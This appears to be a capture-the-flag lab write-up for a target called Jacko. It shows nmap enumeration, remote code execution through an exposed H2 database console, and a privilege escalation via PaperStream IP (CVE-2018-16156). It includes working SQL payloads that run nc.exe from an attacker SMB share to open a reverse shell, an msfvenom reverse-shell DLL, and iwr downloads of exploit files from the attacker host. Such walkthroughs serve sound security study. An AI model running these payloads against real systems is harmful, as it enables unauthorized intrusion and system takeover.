# Network Enumeration

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/jacko]                                                         
└─$ nmap -r -v --min-rate=1500 -p- -oN 001-nmap-tcp-full 192.168.183.66
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8082/tcp  open  blackice-alerts
9092/tcp  open  XmlIpcRegSvc

PORT     STATE  SERVICE       VERSION                           
80/tcp   open   http          Microsoft IIS httpd 10.0          
| http-methods:                                                 
|_  Potentially risky methods: TRACE                            
|_http-title: H2 Database Engine (redirect)                     
|_http-server-header: Microsoft-IIS/10.0                        
5040/tcp open   unknown                                         
7680/tcp closed pando-pub                                       
8082/tcp open   http          H2 database http console          
|_http-title: H2 Console                                        
9092/tcp open   XmlIpcRegSvc?                                   

```


## Port enumeration

### Port 8082 H2 console

That's a login page for port 8082, try to directly login




It work. Then check the version is `H2 1.4.199`




Search on google with this version.



There is a `JNI Code Execution` for this version, try it out.









Wow it's working, now try to running other commands.

Use `smbserver` to create a `smb` session. Then running on target.

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/jacko]
└─$ python3 smbserver.py -smb2support share /home/aaron/Desktop/pg/jacko 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

```

```sql
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd /c //192.168.45.231/Share/nc.exe").getInputStream()).useDelimiter("\\Z").next()');
```




```sql
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd /c //192.168.45.231/Share/nc.exe 192.168.45.231 8082 -e cmd").getInputStream()).useDelimiter("\\Z").next()');

```

Then get shell from target.



# PE

But this `cmd` can't running any common commands. So fix the system path.

```powershell
set PATH=%SystemRoot%\system32;%SystemRoot%;
```

Then can running the commands.



Check `Program Files(x86)` we can see the `PaperStream IP` in here. And check the `TWAIN\readmeenu.rtf` can get the version of `PaperStream IP` is 1.42.



Search on google can see there are Local PE for this version.



Check the details.



Because of this application is under the `Program Files(x86)`, so that I can't generate x64 verion.

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/jacko]                                                 
└─$ msfvenom -p windows/shell_reverse_tcp -f dll -o UninOldIS.dll LHOST=tun0 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload 
[-] No arch selected, selecting arch: x86 from the payload                             
No encoder specified, outputting raw payload                                           
Payload size: 324 bytes                                                                
Final size of dll file: 9216 bytes                                                     
Saved as: UninOldIS.dll

┌──(aaron㉿aaron)-[~/Desktop/pg/jacko]
└─$ searchsploit -m 49382   
  Exploit: PaperStream IP (TWAIN) 1.42.0.5685 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/49382
     Path: /usr/share/exploitdb/exploits/windows/local/49382.ps1
    Codes: CVE-2018-16156
 Verified: True
File Type: ASCII text
Copied to: /home/aaron/Desktop/pg/jacko/49382.ps1
```

Then download them.

```powershell
c:\Program Files (x86)\PaperStream IP\TWAIN>C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -ep bypass

PS C:\users\tony> iwr -uri http://192.168.45.231/49382.ps1 -o exploit.ps1                                         
iwr -uri http://192.168.45.231/49382.ps1 -o exploit.ps1        

PS C:\users\tony> iwr -uri http://192.168.45.231/UninOldIS.dll -o C:\Windows\Temp\UninOldIS.dll                   
iwr -uri http://192.168.45.231/UninOldIS.dll -o C:\Windows\Temp\UninOldIS.dll                                     

```

Running script.



Get Administrator.


